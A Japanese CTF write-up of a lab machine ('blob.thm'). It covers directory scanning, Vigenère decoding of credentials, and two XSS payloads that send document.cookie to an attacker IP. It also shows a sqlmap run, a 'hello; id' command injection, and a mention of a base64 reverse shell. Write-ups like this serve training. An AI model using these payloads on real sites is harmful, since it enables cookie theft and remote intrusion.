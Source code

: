 SSH接続で使おうとしたがエラーが発生する。tacで逆順にしても同じ。

```sh
$ ssh bob@$TARGET -i ./id_rsa
Load key "./id_rsa": error in libcrypto
bob@10.10.146.232's password: 
```

8080ポートで /login 発見。

```sh
$ dirsearch --url http://blob.thm:8080/                   
                            
[17:33:32] 302 -  219B  - /blog  ->  http://blob.thm:8080/login             
[17:34:33] 200 -  546B  - /login                                            
[17:35:14] 302 -  219B  - /review  ->  http://blob.thm:8080/login 
```

序盤で入手した「認証情報らしき文字列」を、youmayenter をキーとして、vigenere-cipher 復号するとbobの認証情報になり、ログインできた。

## blog

ブログのレビュー履歴のようなリンク先を見ると、下記のメッセージが表示された。`<` がエンコードされていないことがわかる。

```
This is the best blog I've ever read! I wanna be you <3 
```

### XSS

```js
Very Nice!<script>document.write('<img src="http://10.13.85.243:8000/' + document.cookie + '">')</script>
```

```js
Nice!<script>fetch('http://10.13.85.243:8000?cookie=' + btoa(document.cookie) );</script>
```

自分でメッセージを表示したらリクエストが来ているのでスクリプト自体は有効だが、他の誰かがリクエストしに来る気配はない。別の道を探す。

### sqlmap

sqlmap を実行したが、脆弱性発見できず。

```sh
sqlmap -r ./post.txt -p review --dbs --batch
```

### コマンドインジェクション

`hello; id` を入力したらコマンドが実行された。

```
uid=33(www-data) gid=33(www-data) groups=33(www-data) 
```

Base64エンコードを使ってリバースシェルを実行。
